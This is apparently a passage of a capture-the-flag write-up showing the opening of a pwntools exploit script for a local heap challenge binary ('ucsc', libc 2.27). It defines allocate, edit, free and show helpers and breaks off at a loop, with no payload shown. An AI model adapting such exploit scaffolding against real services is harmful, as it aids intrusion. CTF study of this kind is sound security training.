 ![[Pasted image 20250424223120.png]]



#### exp
```c
from pwn import*

  

# context.log_level='debug'

context.terminal=['tmux','split','-h']

  
  

elf=ELF('./ucsc')

file = process('./ucsc')

libc =ELF('./libc-2.27.so')

  

menu = ":"  

def add(idx, size):  

    file.sendlineafter(menu, str(1))  

    file.sendlineafter("Index: ", str(idx))  

    file.sendlineafter("Size ", str(size))  

  

def edit(idx, content):  

    file.sendlineafter(menu, str(2))  

    file.sendlineafter("Index: ", str(idx))  

    file.sendlineafter("Content: ", content)  

  

def free(idx):  

    file.sendlineafter(menu, str(4))  

    file.sendlineafter("Index:", str(idx))  

  

def show(idx):  

    file.sendlineafter(menu, str(3))  

    file.sendlineafter("Index:", str(idx))

  

for i in range(7):
```